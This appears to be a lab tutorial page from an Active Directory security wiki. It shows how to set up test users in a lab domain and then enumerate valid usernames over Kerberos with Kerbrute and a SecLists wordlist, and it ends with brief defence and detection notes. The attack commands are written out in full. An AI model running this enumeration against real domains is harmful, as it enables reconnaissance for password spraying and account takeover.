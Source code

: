 ```yaml
---
description: >-
  It is possible to enumerate valid usernames without authentication by sending
  TGT requests with no pre-authentication.
---
```


# Username Enumeration

## Configuring

To implement the attack we need to create a couple users with easy guessable usernames. To do this we can choose some usernames from a populair [list of usernames](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/xato-net-10-million-usernames.txt) from the [SecLists](https://github.com/danielmiessler/SecLists) repository.

We will create the following users:

```
john
david
robert
chris
mike
dave
richard
thomas
steve
mark
```

### Creating users

Previously we created users by using the GUI. Now we will create users using PowerShell. Create the file users.txt and place the usernames in there.

```
cd C:\
notepad users.txt
$password = ConvertTo-SecureString 'ReallySecurePassword123!' -AsPlainText -Force
$files = Get-Content -Path C:\users.txt
ForEach ($name in $files) {
New-ADUser -Name "$name" -GivenName "$name" -SamAccountName "$name" -UserPrincipalName $name@amsterdam.bank.local -Path "OU=Employees,DC=amsterdan,DC=bank,DC=local" -AccountPassword $password -Enabled $true
}
```

![](<../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png>)

Run the command below to check the users are created:

```
Get-ADUser -Filter * | Select-Object Name
```

![](<../../../.gitbook/assets/image (15) (2) (1).png>)

## Attacking

### How it works

> _To enumerate usernames, send TGT requests with no pre-authentication. If the KDC responds with a `PRINCIPAL UNKNOWN` error, the username does not exist. However, if the KDC prompts for pre-authentication, we know the username exists._
>
> _Source:_ [_https://github.com/ropnop/kerbrute#user-enumeration_](https://github.com/ropnop/kerbrute#user-enumeration)\_\_

### Executing the attack

To enumarate usernames we can use the tool [Kerbrute](https://github.com/ropnop/kerbrute). To install Kerbrute on Kali download the latest [release](https://github.com/ropnop/kerbrute/releases) from GitHub and save it somewhere. I would recommend `/opt`.

![](<../../../.gitbook/assets/afbeelding (31).png>)

For the list of usernames download the [xato-net-10-million-usernames.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/xato-net-10-million-usernames.txt) list from [SecLists](https://github.com/danielmiessler/SecLists).

```
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/xato-net-10-million-usernames.txt
```

After downloading the tool and the username list run Kerbrute against the domain `amsterdam.bank.local`. Pipe the command to tee to save the output to a txt file.

```
./kerbrute_linux_amd64 userenum -d amsterdam.bank.local --dc 10.0.0.3 xato-net-10-million-usernames.txt | tee username_enum.txt
```

These valid users can be used for AS-REP roasting or Password Spraying Attacks. For now save these users to `usernames.txt`.

![](<../../../.gitbook/assets/image (22) (1) (1) (1) (1) (1).png>)

To only get a list of usernames execute the following:

```
cat username_enum.txt | grep bank.local | cut -d " " -f 8- | cut -d "@" -f 1 | sed 's/./\L&/g' | sort -u > users.txt

cat users.txt                                                                                                       
administrator
bank
chris
dave
david
john
mark
mike
richard
robert
steve
thomas
```

From here we can execute the following attacks to gain access to the domain:



{% content-ref url="password-spraying.md" %}
[password-spraying.md](password-spraying.md)
{% endcontent-ref %}

{% content-ref url="empty-password.md" %}
[empty-password.md](empty-password.md)
{% endcontent-ref %}

{% content-ref url="as-rep-roasting.md" %}
[as-rep-roasting.md](as-rep-roasting.md)
{% endcontent-ref %}

## Defending

### Recommendations

* I dont know any configurations to block the enumeration of usernames. The best way to block this is using a non traditional naming convention for the samaccountnames.

### Detection

The attack generates the Windows event ID [4768](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768) "A Kerberos authentication ticket (TGT) was requested" if Kerberos logging is enabled.

**Work in Progress**

## References

{% embed url="https://github.com/danielmiessler/SecLists" %}

{% embed url="https://github.com/ropnop/kerbrute" %}
